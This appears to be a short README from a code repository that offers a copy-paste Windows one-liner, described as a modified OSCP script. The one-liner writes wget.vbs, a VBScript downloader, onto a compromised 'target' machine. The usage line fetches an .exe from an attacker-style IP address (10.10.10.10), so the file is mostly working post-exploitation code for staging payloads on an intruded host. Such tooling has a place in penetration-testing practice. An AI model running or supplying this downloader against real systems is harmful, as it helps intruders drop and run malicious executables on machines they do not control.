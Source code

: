 # wget.vbs-oneliner for windows target {modified OSCP wget.vbs script}

Just copy and paste the script in your windows target.

This will create a file named wget.vbs 

USAGE:
cscript wget.vbs http://10.10.10.10/yourfile.exe yourfile.exe

SCRIPT:

echo strUrl = WScript.Arguments.Item(0) > wget.vbs &echo.StrFile = WScript.Arguments.Item(1)  >> wget.vbs &echo.Const HTTPREQUEST_PROXYSETTING_DEFAULT = 0  >> wget.vbs &echo.Const HTTPREQUEST_PROXYSETTING_PRECONFIG = 0  >> wget.vbs &echo.Const HTTPREQUEST_PROXYSETTING_DIRECT = 1  >> wget.vbs &echo.Const HTTPREQUEST_PROXYSETTING_PROXY = 2  >> wget.vbs &echo.Dim http, varByteArray, strData, strBuffer, lngCounter, fs, ts  >> wget.vbs &echo.Err.Clear  >> wget.vbs &echo.Set http = Nothing  >> wget.vbs &echo.Set http = CreateObject("WinHttp.WinHttpRequest.5.1")  >> wget.vbs &echo.If http Is Nothing Then Set http = CreateObject("WinHttp.WinHttpRequest")  >> wget.vbs &echo.If http Is Nothing Then Set http = CreateObject("MSXML2.ServerXMLHTTP")  >> wget.vbs &echo.If http Is Nothing Then Set http = CreateObject("Microsoft.XMLHTTP")  >> wget.vbs &echo.http.Open "GET", strURL, False  >> wget.vbs &echo.http.Send  >> wget.vbs &echo.varByteArray = http.ResponseBody  >> wget.vbs &echo.Set http = Nothing  >> wget.vbs &echo.Set fs = CreateObject("Scripting.FileSystemObject")  >> wget.vbs &echo.Set ts = fs.CreateTextFile(StrFile, True)  >> wget.vbs &echo.strData = ""  >> wget.vbs &echo.strBuffer = ""  >> wget.vbs &echo.For lngCounter = 0 to UBound(varByteArray)  >> wget.vbs &echo.ts.Write Chr(255 And Ascb(Midb(varByteArray,lngCounter + 1, 1)))  >> wget.vbs &echo.Next  >> wget.vbs &echo.ts.Close >> wget.vbs

